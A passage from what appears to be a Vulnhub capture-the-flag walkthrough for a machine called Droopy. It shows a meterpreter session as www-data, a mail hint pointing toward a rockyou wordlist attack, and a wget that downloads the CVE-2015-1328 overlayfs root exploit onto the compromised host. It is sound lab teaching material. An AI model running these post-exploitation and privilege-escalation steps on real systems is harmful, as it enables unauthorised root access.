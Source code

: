     Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100777/rwxrwxrwx  564   fil   2016-04-14 20:32:01 +0200  www-data

Let's read the e-mails of www-data:

    From Dave <dave@droopy.example.com> Wed Thu 14 Apr 04:34:39 2016
    Date: 14 Apr 2016 04:34:39 +0100
    From: Dave <dave@droopy.example.com>
    Subject: rockyou with a nice hat!
    Message-ID: <730262568@example.com>
    X-IMAP: 0080081351 0000002016
    Status: NN

    George,

      I've updated the encrypted file... You didn't leave any
    hints for me. The password isn't longer than 11 characters
    and anyway, we know what academy we went to, don't you...?

    I'm sure you'll figure it out it won't rockyou too much!

    If you are still struggling, remember that song by The Jam

    Later,
    Dave

## Privilege escalation

We need a privilege escalation. Like for
[Fart-knocker](http://maggick.fr/2015/06/vulnhub-fart-knocker.html#CVE-2015-1328)
We can use the CVE-2015-1328 exploiting overlayFS to get a root shell on the
machine.

We spawn a shell:

    meterpreter > shell
    Process 1233 created.
    Channel 1 created.

We still have the permissions of `www-data`:

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

We download the exploit `ofs.c`:

    wget https://www.exploit-db.com/download/37292
    --2016-05-10 15:58:12--  https://www.exploit-db.com/download/37292
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5123 (5.0K) [application/txt]
    Saving to: '37292'

        0K .....                                                 100%  358M=0s

    2016-05-10 15:58:12 (358 MB/s) - '37292' saved [5123/5123]
